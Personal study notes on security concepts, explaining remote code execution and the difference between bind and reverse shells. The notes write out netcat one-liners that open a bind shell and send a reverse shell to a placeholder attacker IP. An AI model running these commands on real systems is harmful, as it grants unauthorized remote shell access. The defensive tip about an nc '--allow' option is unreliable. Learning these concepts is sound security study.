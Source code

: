 <link href="../styles.module.css" rel="stylesheet">
<link rel="preconnect" href="https://fonts.googleapis.com">
<link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
<link href="https://fonts.googleapis.com/css2?family=Cedarville+Cursive&display=swap" rel="stylesheet">
<link rel="preconnect" href="https://fonts.googleapis.com">
<link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
<link href="https://fonts.googleapis.com/css2?family=Cedarville+Cursive&family=Zen+Tokyo+Zoo&display=swap" rel="stylesheet">
<link rel="preconnect" href="https://fonts.googleapis.com">
<link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
<link href="https://fonts.googleapis.com/css2?family=Cedarville+Cursive&family=Encode+Sans+SC&family=Zen+Tokyo+Zoo&display=swap" rel="stylesheet">


## <span class="copyright">Personal Security Notes <span style="float:right;">By Shatha Barqawi</span>

<br/><br/>

# <span class="title">Shells


<span class="date">Friday, 16/7/2021</span> 


<br/> 

### <span class="linuxBasicsSubs subtitle">RCE (Remote Code Execution)  
* Belongs to the broader class of *Arbitrary Code Execution*. 
* It's a vulnerability in web applications where an attacker is able to run code of their choosing with system level privileges on a server that possesses the appropriate weakness.  
The attacker, if successful in exploiting this vulnerability, would be able to access any if not all information on a server such as DBs that contain information about nonsuspecting clients.
<br/><br/>

### <span class="linuxBasicsSubs subtitle">What is a Shell?  
* It's a user interface that is eitehr a CLI or a GUI that makes access to the OS services possible.
<br/><br/>

### <span class="linuxBasicsSubs subtitle">Why call it a Shell?  
* Because it's the outermost layer around the OS.
<br/><br/>

### <span class="linuxBasicsSubs subtitle"> Bind Shell  
* Has the listener running on the target and the attacker connect to the listener in order to gain a remote shell.  
 
* Doesn't work if there are firewalls filtering inbound connections.  

* How to make a Bind Shell?  
  The following command should be executed on the target computer  

  ```console
  nc -nvlp 9999 -e /bin/bash
  ```  

  And the attacker should do the following on their side  

  ```console
   nc -nv [TARGET's IP ADDRESS] 9999
  ```  

* To protect against unauthorized remote access using a bind shell we can write the option `--allow` on the nc command then the IP addresses allowed to connect which is called *Whitelisting* .
<br/><br/>

### <span class="linuxBasicsSubs subtitle">Reverse Shell 

* What's a Reverse Shell?  
  It's when the attacker gains access to a victim's computer where the listener is set on the their system and the they have the target connect to their attack box providing them with a shell access.  

* How to Make a Reverse Shell?  
  The following command should be executed on the target computer  

  ```console
  nc -nv [ATTACKER's IP ADDRESS] 9999 -e /bin/bash
  ```  

  And the attacker should do the following on their side  

  ```console
   nc -nvlp 9999
  ```  
